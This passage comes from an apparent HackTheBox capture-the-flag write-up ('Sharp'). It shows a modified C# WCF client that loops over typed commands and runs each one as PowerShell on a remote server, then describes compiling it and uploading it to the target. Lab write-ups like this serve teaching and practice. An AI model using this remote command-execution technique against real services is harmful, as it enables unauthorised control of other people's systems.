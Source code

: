 ```c#
    Console.WriteLine("[+] Connection successfully established!");

    bool loop = true;
    string cmd;

    // Endlessly execute commands
    while (loop)
    {
        Console.Write("PS> ");
        cmd = Console.ReadLine();
        if (cmd.Contains("exit") || cmd.Contains("quit"))
            loop = false; // Exit
        else
        {
            try
            {
                // Execute command
                Console.WriteLine(client.InvokePowerShell(cmd));
            }
            catch (Exception ex)
            {
                Console.WriteLine("Exception occurred during execution of command! Error:\n" + ex.Message);
                // Restart application or errors, because connection may be faulted upon errors
                Main();
            }
        }
    }
}
```

Now that we have modified the client, let us compile the client and upload it to the server.

![Client build](/assets/htb/Sharp/vs/wcf/client-build.png)

We successfully compiled the client and can now upload it the server. For this we simply start a web-server and download the client from the server.

```powershell
PS C:\Users\User\source\repos\wcf\Client\bin > Compress-Archive -Path .\Release\ -DestinationPath client.zip
```

```powershell
PS C:\Users\lars\Documents\wcf\Client\bin\Release> 
```
